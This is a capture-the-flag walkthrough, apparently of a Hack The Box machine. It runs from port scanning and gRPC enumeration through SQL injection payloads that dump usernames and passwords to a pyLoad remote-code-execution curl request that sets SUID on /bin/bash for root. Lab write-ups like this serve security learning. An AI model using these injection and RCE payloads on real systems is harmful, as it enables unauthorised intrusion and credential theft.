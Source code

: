 # Recon

~~~
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.228.127
~~~

~~~
┌──(mrg0d㉿GodsHome)-[~/Desktop]
└─$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.228.127            
[sudo] password for mrg0d: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 19:35 IST
Initiating SYN Stealth Scan at 19:35
Scanning 10.129.228.127 [65535 ports]
Discovered open port 22/tcp on 10.129.228.127
Discovered open port 50051/tcp on 10.129.228.127
Increasing send delay for 10.129.228.127 from 0 to 5 due to 11 out of 14 dropped probes since last increase.
Increasing send delay for 10.129.228.127 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.129.228.127 from 10 to 20 due to 11 out of 11 dropped probes since last increase.
Completed SYN Stealth Scan at 19:36, 40.78s elapsed (65535 total ports)
Nmap scan report for 10.129.228.127
Host is up, received user-set (0.28s latency).
Scanned at 2023-05-22 19:35:31 IST for 40s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
50051/tcp open  unknown syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 40.91 seconds
           Raw packets sent: 196633 (8.652MB) | Rcvd: 4 (176B)
~~~

PORT SCAN

~~~
nmap -p22,80,50051 -sCV -Pn 10.129.228.127
~~~

~~~
┌──(mrg0d㉿GodsHome)-[~/Desktop]
└─$ nmap -p22,80,50051 -sCV -Pn 10.129.228.127
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 20:12 IST
Nmap scan report for 10.129.228.127
Host is up.

PORT      STATE    SERVICE VERSION
22/tcp    filtered ssh
80/tcp    filtered http
50051/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.49 seconds
~~~

When i did check about port 50051 it is GRPC server

When i googled about grpc server , i heard to know about grpcurl

~~~
grpcurl -plaintext pc.htb:50051 list
~~~

~~~
┌──(mrg0d㉿GodsHome)-[~/Desktop]
└─$ grpcurl -plaintext pc.htb:50051 list 
SimpleApp
grpc.reflection.v1alpha.ServerReflection

┌──(mrg0d㉿GodsHome)-[~/Desktop]
└─$ grpcurl -plaintext pc.htb:50051 list SimpleApp
SimpleApp.LoginUser
SimpleApp.RegisterUser
SimpleApp.getInfo

┌──(mrg0d㉿GodsHome)-[~/Desktop]
└─$ grpcurl -plaintext pc.htb:50051 describe  SimpleApp
SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}
 
┌──(mrg0d㉿GodsHome)-[~/Desktop]
└─$ grpcurl -plaintext pc.htb:50051 SimpleApp.LoginUser
{
  "message": "Login unsuccessful"
}
~~~

I know about grpcui

Install it using this command 

~~~
go install github.com/fullstorydev/grpcui/cmd/grpcui@latest
~~~

When i tried to login , with default credentials  admin : admin

![[Pasted image 20230522210525.png]]


![[Pasted image 20230522210420.png]]

Got this token :

~~~
token

b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODQ3ODkzNzB9.4DinUS0RNlRCckRgqVrVar9ia0KgttJhHzoCZ9Fzd9w'
~~~

With this token..!!!

![[Pasted image 20230523005148.png]]

Now intercept the Request ..!!! We can see the parameter "id" which is Injectable to sql ...!!

Yes it is working ...!!! Can see the Sqlite version...!!

~~~
{"timeout_seconds":1,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODQ3ODkzNzB9.4DinUS0RNlRCckRgqVrVar9ia0KgttJhHzoCZ9Fzd9w"}],"data":[{"id":"0 union SELECT sqlite_version[];"}]}
~~~

We can use alternatively sqlmap But it will take more time than u expecting..!!

![[Pasted image 20230522211300.png]]

For Usernames:

~~~
{"timeout_seconds":1,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODQ3ODkzNzB9.4DinUS0RNlRCckRgqVrVar9ia0KgttJhHzoCZ9Fzd9w"}],"data":[{"id":"0 union SELECT GROUP_CONCAT(username) from accounts"}]}
~~~
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODQ3ODkzNzB9.4DinUS0RNlRCckRgqVrVar9ia0KgttJhHzoCZ9Fzd9w'

![[Pasted image 20230522234922.png]]

For Password:

~~~
{"timeout_seconds":1,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODQ3ODkzNzB9.4DinUS0RNlRCckRgqVrVar9ia0KgttJhHzoCZ9Fzd9w"}],"data":[{"id":"0 union SELECT GROUP_CONCAT(password) from accounts"}]}
~~~


![[Pasted image 20230522234959.png]]

~~~
sudo ssh sau@10.129.228.178
~~~

![[Pasted image 20230523001216.png]]

Got user flag..!!!

## Privelege Escalation

I checked 

~~~
sudo -l
~~~

Nope ..!!cant run sudo on localhost..!!something Phishy..right..!!!


~~~
netstat -taon
~~~

I can see some service is  running on Port 8000

I port forwarded with SSH itself..!!To  see what it is ..!!

~~~
sudo ssh sau@10.129.228.178 -L 8000:127.0.0.1:8000
~~~

This command will initiate an SSH connection to the remote host at IP address 10.129.228.178 using the username "sau". It will also set up local port forwarding, where any traffic sent to port 8000 on your local machine will be forwarded to port 8000 on the remote machine (127.0.0.1 refers to the remote machine's loopback address).

~~~
┌──(mrg0d㉿GodsHome)-[~/Desktop]
└─$ sudo ssh sau@10.129.228.178 -L 8000:127.0.0.1:8000
The authenticity of host '10.129.228.178 (10.129.228.178)' can't be established.
ED25519 key fingerprint is SHA256:63yHg6metJY5dfzHxDVLi4Zpucku6SuRziVLenmSmZg.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
    ~/.ssh/known_hosts:2: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.228.178' (ED25519) to the list of known hosts.
sau@10.129.228.178's password: 
Permission denied, please try again.
sau@10.129.228.178's password: 
Last login: Mon May 22 18:27:58 2023 from 10.129.228.178
~~~

Checked My browser..!!

![[Pasted image 20230523005633.png]]

Checked for vulnerabilities for PyLoad..!!

Got so many.!!!

This is clear..!!

Reference Link : https://huntr-dev.translate.goog/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_hist=true

We just have to make the POST request...!!!

~~~
curl -X POST 127.0.0.1:8000/flash/addcrypted2 -d 'jk=pyimport%20os%3Bos%2Esystem%28%22chmod%20u%2Bs%20%2Fbin%2Fbash%22%29;f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'
~~~


~~~
┌──(mrg0d㉿GodsHome)-[~/Desktop]
└─$ curl -X POST 127.0.0.1:8000/flash/addcrypted2 -d 'jk=pyimport%20os%3Bos%2Esystem%28%22chmod%20u%2Bs%20%2Fbin%2Fbash%22%29;f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'
Could not decrypt key  
~~~~

![[Pasted image 20230523001230.png]]

Got rooted..!!!Easy Machine..!!